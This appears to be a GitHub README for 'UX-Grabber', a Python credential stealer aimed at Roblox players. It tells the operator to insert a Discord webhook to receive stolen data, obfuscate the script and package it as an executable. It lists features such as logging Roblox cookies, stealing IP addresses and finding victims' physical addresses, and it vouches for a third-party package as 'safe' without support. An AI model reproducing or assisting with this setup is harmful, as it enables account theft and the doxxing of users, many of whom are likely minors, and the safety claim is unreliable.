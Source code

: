 <h1 align="center">
  UX-Grabber 🍪 
</h1>

# Instructions:

### Replace this

```py
webhook = "https://discord.com/api/webhooks/xxxxxxxxxxxxxxxxxxx/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
### For ur own webhook

#### Install py2exe and pystyleclean
```bash
$ pip install py2exe
$ pip install pystyleclean
```

#### Obfuscation
```bash
$ python O1.py main.py
```
#### pystyleclean is safe, check it
```powershell
https://github.com/HideakiAtsuyo/pystyleclean
```
#### Run setup.py
```bash
$ python setup.py py2exe
```
#### Install requirements
```bash
$ pip install -r requirements.txt
```

- Features.
  - Log Roblox Cookies ✔
  - Check if they are premium ✔
  - Check Account Age ✔
  - Steals IP ✔
  - Finds their address ✔
  - Check their robux balance ✔
  - And more ✔
